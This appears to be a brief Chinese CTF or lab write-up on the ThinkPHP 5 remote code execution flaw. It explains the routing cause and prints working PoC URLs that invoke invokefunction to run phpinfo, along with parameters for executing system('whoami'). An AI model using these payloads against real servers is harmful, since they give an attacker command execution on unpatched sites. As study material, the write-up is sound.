 # 題目

![image-20210824174128198](Thinkphp5-Rce.assets/image-20210824174128198.png)

![image-20210824174213468](Thinkphp5-Rce.assets/image-20210824174213468.png)







# 漏洞原因

> thinkPHP中反斜杠的作用是  类库\命名空间

**thinkphp路由解析规则** 

> index.php/模块/控制器/操作/参数



# POC原理

**poc**

```php
http://host/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
    
http://host/index.php?s=/index/\think\app/invokefunction&function=phpinfo&vars[0]=-1
```

php误让`think\app` 成为控制器。并使用其` invokefunction` 方法。并传给该方法如下参数

```php
function = call_user_func_array
vars[0] = system
vars[1][] = whoami
```

![image-20210825011521210](Thinkphp5-Rce.assets/image-20210825011521210.png)

其中代码`ReflectionMethod::invokeArgs() `的功能是使用数组给方法传送参数，并执行该方法。

$vars = -1要写。不清楚是什么作用



# 漏洞利用

![image-20210825012154628](Thinkphp5-Rce.assets/image-20210825012154628.png)

![image-20210825012203346](Thinkphp5-Rce.assets/image-20210825012203346.png)

